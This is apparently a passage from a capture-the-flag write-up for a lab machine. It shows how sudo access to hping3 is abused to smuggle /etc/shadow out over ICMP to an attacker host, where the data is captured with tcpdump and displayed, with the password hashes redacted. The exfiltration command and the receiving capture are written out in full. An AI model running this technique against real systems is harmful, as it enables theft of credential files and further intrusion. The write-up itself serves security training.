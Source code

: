 With the parameters `-d` and `-E` we can exfiltrate data from files through icmp protocol.
- Command: `sudo /usr/sbin/hping3 --icmp -d 1416 -E /etc/shadow 192.168.49.200`


```shell
fox@icmp:~$ sudo /usr/sbin/hping3 --icmp -d 1416 -E /etc/shadow 192.168.49.200
HPING 192.168.49.200 (ens160 192.168.49.200): icmp mode set, 28 headers + 1416 data bytes
[main] memlockall(): Operation not supported
Warning: can't disable memory paging!
len=1444 ip=192.168.49.200 ttl=63 id=2130 icmp_seq=0 rtt=62.3 ms
len=1444 ip=192.168.49.200 ttl=63 id=2238 icmp_seq=1 rtt=62.2 ms
len=1444 ip=192.168.49.200 ttl=63 id=2292 icmp_seq=2 rtt=62.1 ms
len=1444 ip=192.168.49.200 ttl=63 id=2508 icmp_seq=3 rtt=61.9 ms
len=1444 ip=192.168.49.200 ttl=63 id=2619 icmp_seq=4 rtt=61.8 ms
len=1444 ip=192.168.49.200 ttl=63 id=2647 icmp_seq=5 rtt=61.7 ms
len=1444 ip=192.168.49.200 ttl=63 id=2794 icmp_seq=6 rtt=69.6 ms
^C
--- 192.168.49.200 hping statistic ---
7 packets transmitted, 7 packets received, 0% packet loss
round-trip min/avg/max = 61.7/63.1/69.6 ms
```

Before running the `hping3` command, we should run `tcpdump` to receive the contents of `/etc/shadow`.


```shell
geobour98@kali:~$ sudo tcpdump icmp -i tun0 -w icmp.pcap
```

The output is saved on `icmp.pcap`, which can be opened with `wireshark`.


```shell
geobour98@kali:~$ wireshark icmp.pcap
root:[REDACTED]:19195:0:99999:7:::
daemon:*:18545:0:99999:7:::
bin:*:18545:0:99999:7:::
sys:*:18545:0:99999:7:::
sync:*:18545:0:99999:7:::
games:*:18545:0:99999:7:::
man:*:18545:0:99999:7:::
lp:*:18545:0:99999:7:::
mail:*:18545:0:99999:7:::
news:*:18545:0:99999:7:::
uucp:*:18545:0:99999:7:::
proxy:*:18545:0:99999:7:::
www-data:*:18545:0:99999:7:::
backup:*:18545:0:99999:7:::
list:*:18545:0:99999:7:::
irc:*:18545:0:99999:7:::
gnats:*:18545:0:99999:7:::
nobody:*:18545:0:99999:7:::
_apt:*:18545:0:99999:7:::
systemd-timesync:*:18545:0:99999:7:::
systemd-network:*:18545:0:99999:7:::
systemd-resolve:*:18545:0:99999:7:::
messagebus:*:18545:0:99999:7:::
sshd:*:18545:0:99999:7:::
avahi:*:18545:0:99999:7:::
saned:*:18545:0:99999:7:::
colord:*:18545:0:99999:7:::
hplip:*:18545:0:99999:7:::
systemd-coredump:!!:18545::::::
fox:[REDACTED]:18599:0:99999:7:::
```
